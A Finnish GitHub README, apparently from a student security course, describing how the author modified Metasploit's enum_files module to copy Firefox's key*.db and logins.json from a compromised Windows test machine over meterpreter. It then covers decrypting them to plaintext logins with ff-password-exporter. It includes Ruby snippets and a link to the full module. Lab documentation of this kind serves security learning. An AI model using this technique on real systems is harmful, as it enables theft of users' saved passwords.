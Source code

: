# Metasploit moduuli firefox salasanojen varastukseen.

## Esittely

Tässä on dokumentaatio metasploit moduulista, jonka tarkoitus on varastaa meterpreter yhteyden kautta Firefoxin salasana tiedostot.  
Moduuli on rakennettu enum_files pohjalta ja on kokonaisuudessaan melko yksinkertainen.
Tein mielummin oman moduulin enum_files pohjalta, sillä valmis firefox_cred moduuli lataa paljon ylimääräistä tavaraa ja halusin pitää liikenteen minimaalisena.  


Työkaluina käytin Armitagea moduulin käyttämiseen, Virtualboxia testikoneen pyörittämiseen ja Virtualboxissa aikaisemmassa dokumentissa luotua testikonetta, sekä atomia moduulin tekemiseen.
Käytettyyn testikoneeseen oli valmiiksi syötetty kaksi pseudo käyttäjätunnusta ja salasanaa, jotta moduuli oikeasti hakisin jotain kohteesta.
Koska moduulia käytetään meterpreter yhteyden kautta, niin piti virustorjunnat ottaa pois päältä, että yhteys toimisi ja moduulia pystyisi käyttämään.

## Moduulin rakennus

Aikaisemmassa dokumentaatiossa kävi ilmi, että Firefox säilyttää tallennettuja salasanoja kahdessa tiedostossa, joista toinen on logins.json, jossa Firefox säilyttää itse tunnukset ja salasanat, sekä key*.db jossa Firefox säilyttää avainta jolla salasanat on kryptattu. 
Tarvitsemme siis molemmat tiedostot, jos haluamme avata salasanat.
  
Aloin tutkimaan miten saisin haettua tiedostot helposti, kun törmäsin metasploitissa olevaan post exploittiin nimeltä **enum_files**. Enum_filesilla pystyi hakemaan tietyltä kovalevyltä kaikki tiedostot, jotka vastasivat hakuun annettua tiedoston nimeä.  
Testasin enum_filesin toimintaa antamalla haettavaksi tiedostoksi key*.db. Tähtimerkinnällä viitataan siihen, ettei tiedetä mikä numero key*.db tiedoston nimessä on, joten moduuli hakee kaikki kuvaukseen sopivat tiedostot. Firefoxissa tosin pitäisi olla vain yksi key*.db per profiili, joten tämä ei tuota ongelmia. Haettavaksi kohteeksi asetin koko C:/ aseman. 

![Haku ikkuna](https://github.com/Tommi852/virustestaus/raw/master/media/enum_files_original.png)

![Haku komentorivillä](https://github.com/Tommi852/virustestaus/raw/master/media/Enum_files_haku.png)
  
Enum_files löysikin firefoxin key*.db tiedoston ja latasi sen. Moduulissa oli tosin ongelmana se, että se osasi ladata vain yhden tiedoston kerrallaan. Kokeilin erilaisia tapoja saada sitä lataamaan useamman tiedoston, kuten antamalla haettavaksi kohteeksi **key*.db && logins.json**, mutta tuloksetta. Näin ollen päätin, että minun pitää kustomoida moduulin koodia, jotta se toimii niinkuin haluan.

 
 
Enum_filesin koodi on kirjoitettu Rubylla ja se löytyy polusta: /usr/share/metasploit-framework/modules/post/windows/gather/enum_files.rb. Polku voi vaihdella, jos metasploit on rakennettu toiselle distrolle tai githubin kautta. 
  
Kopioin enum_files.rb tiedoston polkuun: ~/.msf4/modules/post/windows/gather/, joka on tarkoitettu nimenomaan metasploit moduulien kehittämistä varten ja kolmannen osapuolen moduuleja varten.  
Koska en osaa Rubya, niin koodin tutkiminen ja joten kuten ymmärtäminen tuotti hieman vaikeuksia, mutta lukuisten kokeilujen jälkeen löysin melko yksinkertaisen tekniikan, jolla sain enum_filesin hakemaan kaksi eri tiedostoa kohteesta.
  
Aluksi lisäsin register_options kohtaan uuden asetuksen, johon asetin haettavaksi logins.jsonin.
```
    register_options(
      [
        OptString.new('SEARCH_FROM', [ false, 'Search from a specific location. Ex. C:\\', 'C:/']),	# Tämä kertoo mistä levyltä haetaan.
        OptString.new('FILE_GLOBS',  [ true, 'Filename for decrypt file. Ex. key3.db', 'key*.db']),	# Tämä kertoo tiedoston, jota etsitään kohteesta.
        OptString.new('FILE_GLOBS2',  [ true, 'File name for logins file. Ex. logins.json', 'logins.json'])	# Tämä on itse lisäämäni kopio ylemmästä vaihtoehdosta toiselle tiedostolle.
      ])
```
Tämän jälkeen loin koodin uudelle FILE_GLOBS2 vaihtoehdolle, että sekin haetaan kohteesta:
```
    datastore['FILE_GLOBS2'].split(",").each do |glob|
      begin
        download_files(location, glob.strip)
      rescue ::Rex::Post::Meterpreter::RequestError => e
        if e.message =~ /The device is not ready/
          print_error("#{my_drive} drive is not ready")
          next
        elsif e.message =~ /The system cannot find the path specified/
          print_error("Path does not exist")
          next
        else
          raise e
        end
      end
    end
```
Koodi on siis täysin sama, kuin mikä oli FILE_GLOBS vaihtoehdolle, mutta eri datastorella.  
Tämä ei ole puhtain tai optimaalisin tapa toimia, sillä nyt koodi hakee uudestaan kovalevyltä tätä tosita tiedostoa ja lataa sitten sen, vaikka tiedostot ovat täysin samassa polussa. Jouduin kutienkin tyytymään tähän ratkaisuun, sillä en ymmärrä tarpeeksi Rubya, että osaisin rakentaa tämän optimaalisemmaksi ja näin tämä toimii.

![FirefoxVaras ikkuna](https://github.com/Tommi852/virustestaus/raw/master/media/FirefoxVaras_ikkuna.png)

![FirefoxVaras komentorivillä](https://github.com/Tommi852/virustestaus/raw/master/media/FirefoxVaras.png)

  
Kokonaisuudessaan moduuli löytyy täältä: https://github.com/Tommi852/virustestaus/blob/master/moduuli/firefoxVaras.rb

## Tiedostojen purku.

Moduulin lataamat tiedostot menevät kansioon polussa: ~/.msf4/loot ja ovat hieman kryptisillä nimillä.  
Tiedostojen nimistä käy ilmi latausaika, IP-osoite josta ladattu, sekä tiedosto pääte. Tiedosto päätteissä on pieni ongelma, sillä koodi ei osaa nimetä .json tiedostoa samalla nimellä vaan muuttaa sen .bin nimiseksi tiedostoksi. Kansiosta löytyy kaksi kumpaakin tiedostoa, eli .db ja .bin tiedostoa on kumpaakin kaksi kappaletta. Tämä johtuu todennäköisesti siitä, että koneelta löytyy kaksi kertaa nämä tiedostot OpenSSH:n luoman linkin kautta.  
Näin ollen muutin tiedostojen nimet hieman ymmärrettäviksi. Nimesin yhden .db tiedoston key4.db tiedostoksi ja yhden .bin tiedoston logins.json tiedostoksi.  
  
Kopioin kummatkin tiedostot uuteen kansioon kotihakemistossa nimeltä "purku", jossa aijon purkaa nämä tiedostot oikeiksi salasanoiksi. Koska purkaminen olisi käsin melko työlästä, niin käytin apuna firefox_decrypt.py skriptiä, joka löytyy sen kehittäjän githubista osoitteesta: https://github.com/unode/firefox_decrypt  
Nopealla silmäilyllä koodi ei näytä haitalliselta itselleni.
  
Tiedostojen purkamisen piti onnistua komennolla: **python firefox_decrypt.py purku/**, mutta itse sain virheeksi: **ERROR - Couldn't initialize NSS, maybe '/root/purku' is not a valid profile?**  
Tiedosto polku oli oikein, mutta ilmeisesti skripti olisi halunnut myös profile.ini tiedoston mukaan purkamiseksi. Kokeilin erilaisia tekniikoita, kuten NSS uudelleen asennuksen, mutta nämä eivät auttaneet.  
Lopuksi löysin firefox_decryptistä tehdun forkin nimeltä ff-password-exporter, joka löytyy osoitteesta: https://github.com/kspearrin/ff-password-exporter
  
Ff-password-exporter, jolla oli mainittu erikseen, että se tukee Firefox58+ versioissa käytettyjä key4.db profiileja. Ff-password-exporter on firefox_decrypt.py pohjautuva spin-offi, jossa on graafinen käyttöliittymä.  
Ff-password-exporterin käyttö oli erittäin suoraviivaista. Ohjelmalle piti aluksi antaa suoritus oikeudet, joka onnistuu esimerkiksi klikkaamalla oikealla kuvaketta ja laittamalla ruksin execute kohtaan permissions välilehdellä.  
Tämän jälkeen ohjelman pystyi suorittamaan ja ohjelmasta valittiin vain kansio, jossa key4.db ja logins.json ovat. Koska käytössä ei ollut master passwordia, niin voi kentän jättää tyhjäksi.  

![FF-password-exporter ikkuna](https://github.com/Tommi852/virustestaus/raw/master/media/FF-password-exporter.png)

Tämän jälkeen ohjelma kysyy mihin kansioon tulokset halutaan tallentaa ja missä muodossa (json tai CSV).  
Tiedostossa näkyvät purkamisen jälkeen salasanat ja käyttäjätunnukset selkokielisenä.

![Puretut salasanat](https://github.com/Tommi852/virustestaus/raw/master/media/salasanat_purettu.png)

Salasanojen purkaminen ja oman haittaohjelman käytön demo video löytyy täältä: https://www.youtube.com/watch?v=Tl5hzPOpOzg


